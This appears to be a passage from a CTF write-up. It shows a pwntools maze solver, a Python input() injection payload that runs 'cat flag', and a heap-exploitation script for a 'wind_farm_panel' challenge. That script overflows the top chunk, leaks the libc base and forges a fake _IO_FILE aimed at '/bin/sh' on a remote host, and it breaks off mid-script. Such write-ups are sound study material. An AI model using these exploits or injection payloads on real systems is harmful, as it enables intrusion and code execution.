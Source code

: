 ```python
			continue
		lookup_path.pop()
	#print("Final:", lookup_path)
	path = get_line(lookup_path)
	#log.info('PATH:\t' + path)
	p.sendlineafter('> ',path)
	p.recvuntil('your win\n')

p.interactive()

```

### babymaze2

input漏洞函数的非预期RCE

```python
__import__('os').system('cat flag')
```

### 马赛克

Depix直接看


## Pwn

### wind_farm_panel

```python
from pwn import*
def menu(ch):
	p.sendlineafter('>> ',str(ch))
def new(index,size,content):
	menu(1)
	p.sendlineafter(': ',str(index))
	p.sendlineafter('turbine: ',str(size))
	p.sendafter('name: ',content)
def show(index):
	menu(2)
	p.sendlineafter('viewed: ',str(index))
def edit(index,content):
	menu(3)
	p.sendlineafter('turbine: ',str(index))
	p.sendafter('input: ',content)
p = process('./main')
p = remote('182.92.203.154',28452)
libc =ELF('./libc-2.23.so')
new(0,0x200,'\x00'*0x208 + p32(0xDF1))
new(1,0x1000,'FMYY')
new(2,0x100,'\xA0')
show(2)
libc_base = u64(p.recvuntil('\x7F')[-6:].ljust(8,'\x00')) - libc.sym['__malloc_hook']  - 0x70 - 0x620
log.info('LIBC:\t' + hex(libc_base))

IO_list_all = libc_base + libc.sym['_IO_list_all']
IO_str_jumps = libc_base + 0x3C37A0
fake_IO_FILE  = p64(0) + p64(0x61)
fake_IO_FILE += p64(0) + p64(IO_list_all - 0x10)
fake_IO_FILE += p64(0) + p64(1)
fake_IO_FILE += p64(0) + p64(libc_base + libc.search('/bin/sh').next())
fake_IO_FILE  = fake_IO_FILE.ljust(0xD8,'\x00')
fake_IO_FILE += p64(IO_str_jumps - 8)
```
